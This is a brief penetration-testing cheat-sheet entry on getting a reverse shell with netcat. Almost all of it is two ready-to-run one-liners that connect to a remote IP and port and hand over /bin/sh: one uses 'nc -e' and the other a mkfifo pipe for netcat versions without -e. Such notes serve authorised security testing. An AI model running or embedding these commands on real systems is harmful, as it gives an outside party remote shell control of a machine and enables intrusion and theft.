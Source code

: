 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Reverse shell in Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

``nc -e /bin/sh 10.0.0.1 1234``

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f